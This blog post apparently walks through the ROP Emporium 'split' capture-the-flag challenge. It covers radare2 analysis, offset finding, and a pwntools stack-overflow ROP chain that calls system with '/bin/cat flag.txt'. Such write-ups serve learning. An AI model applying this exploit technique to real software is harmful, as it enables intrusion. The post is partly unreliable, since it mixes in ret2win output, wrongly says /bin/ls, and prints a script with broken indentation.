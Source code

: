 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "Doing these challenges to improve my binary exploitation skills and teach my self Return oriented programming (ROP). These challenges use the usual CTF objective of retrieving the contents of a file named flag.txt from a remote machine by exploiting a given binary"

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium named "Split". In this i am, going to write a small ROP chain to complete this challenge. Going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with radare2 framework.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions.The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see interesting functions:
- main()
- pwnme()
- usefulFunction()

So lets disassemble and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name pwnme() which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 

------
We can see that system call command being executed invoking /bin/ls to list the files in the current workingdirectory.

Let's have a look at what strings are available to us in the binary. To do this, we use the iz command to list all strings in the data sections, or izz to list all strings in the binary. However this is a none-Visual Mode command, so to execute it from Visual Mode we hit :, then enter the command. This is a little bit easier than quitting out to command mode, then re-entering Visual Mode and finding where we were.


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```

➜  ret2win ./ret2win      
ret2win by ROP Emporium
64bits
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa
[5]    74490 segmentation fault  ./ret2win

```
As expected the program segfaulted (crashed),we have a valid crash scenario here,but we are not sure if we have overwritten any registers.So lets attach the binary to gdb and analyze the crash.

Attach the binary to GDB using gdb -q splilit

###### Calculating offset
Generate the unique pattern and send to the program
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-09_11-20-57.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}

#### Building ROP-Chain

Lets find the pieces we need to build a ROP chain.

- string containing “/bin/cat flag.txt”, 
- Address of system
- pop rdi; ret

#### POP RDI RET

Lets find the address of pop rdi ret

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}



--------
Since this challenge only needs 1 argument, we just need to pass the /bin/cat flag.txt string into RDI register. 

------
#### Exploitation 

Now let’s craft the payload.

Junk + pop_rdi + bin_cat + system_plt

Full exploit using pwntools:

----
 
#!/usr/bin/python
from pwn import *
 
def main():
    junk = "A" * 40                     # RIP Offset at 40
    cat_flag = p64(0x00601060)          # Radare2 command: izz
    system_plt = p64(0x4005e0)          # objdump -d split | grep system
    pop_rdi = p64(0x0000000000400883)   # python ROPgadget.py --binary split | grep rdi
    p = process("./split")
    payload = junk + pop_rdi + cat_flag + system_plt
   p.sendlineafter(">", payload)
   print p.recvall()
 
if __name__ == "__main__":
    main() ----






w00t we got the flag!

###### End 

Thats the end of ret2win challenge,it is a very simple one but as i progress through the challenges the exploits will become more complex and fun. Remember never stop learning, Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium



